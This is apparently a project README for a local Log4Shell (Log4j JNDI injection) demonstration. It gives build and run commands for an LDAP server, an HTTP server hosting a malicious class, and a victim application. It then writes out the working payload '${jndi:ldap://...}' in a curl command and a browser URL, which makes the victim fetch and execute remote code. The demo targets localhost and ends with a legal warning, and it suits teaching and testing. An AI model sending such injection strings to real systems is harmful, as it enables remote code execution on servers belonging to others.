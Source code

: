 LDAP and Log4j attack landscape

## Setup

1. Install a Java SDK. It works e.g. with Oracle SDK Version 8 or OpenJDK Version 11
2. Clone this project:

```

```

3. Go into the folder:

```
cd log4j-log4shell-exploit
```

## Run the demo

On Windows use `mvnw.cmd` instead of `./mvnw`

1.) Build the project:

```
./mvnw package
```

2. Start the LdapServer:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.LdapServer"
```

2.) Start the HttpServer:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.HttpServer"
```

3.) Start the victim:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.Opfer"
```

4.) Use curl or your browser to invoke the following URL:

```
curl 'http://localhost:8000/hallo?name=$\{jndi:ldap://localhost:10389/cn=badcode,dc=predic8,dc=de\}'
```

or open in your browser:

```
http://localhost:8000/hallo?name=${jndi:ldap://localhost:10389/cn=badcode,dc=predic8,dc=de}
```

The victim application will write into its log and the ldap query will be executed. The result of the Ldap query will make the victim loading the malicious class from the HTTP server and executing it.

**Please be aware that even hacking attempts are illegal!**
